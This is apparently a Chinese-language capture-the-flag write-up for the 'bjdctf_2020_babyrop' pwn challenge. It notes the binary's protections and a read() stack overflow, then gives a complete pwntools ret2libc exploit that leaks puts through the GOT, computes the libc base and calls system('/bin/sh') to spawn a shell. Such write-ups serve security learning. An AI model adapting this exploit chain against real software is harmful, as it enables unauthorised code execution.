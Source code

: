 # 知识点

ret2libc



# 题目分析

1. 检查保护情况。64位程序，开启NX保护。

   ```bash
   Arch:     amd64-64-little
   RELRO:    Partial RELRO
   Stack:    No canary found
   NX:       NX enabled
   PIE:      No PIE (0x400000)
   ```

2. 拖入IDA分析，发现存在read栈溢出漏洞。

   ![ida1](./isset/ida1.png)

3. 题目提供了puts函数，可以泄露got表地址。进而ret2libc。



# EXP

```python
from pwn import *

context(arch = 'amd64', os = 'linux', log_level = 'debug')

io = process('./bjdctf_2020_babyrop')
io = remote('node4.buuoj.cn', '26675')
elf = ELF('./bjdctf_2020_babyrop')
libc = ELF('./libc-2.23.so')

main = elf.sym['_start']
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']

pop_rdi = 0x400733

# leak puts
payload = 'A' * 0x20 + 'deadbeef'
payload += p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
io.send(payload)
puts_real = u64(io.recvuntil('\x7f')[-6:].ljust(8, '\x00'))

# libc
libc_base = puts_real - libc.sym['puts']
system = libc_base + libc.sym['system']
binsh = libc_base + libc.search('/bin/sh').next()

# ret2libc
payload = 'A' * 0x20 + 'deadbeef'
payload += p64(pop_rdi) + p64(binsh) + p64(system) + p64(main)
io.send(payload)

io.interactive()
```

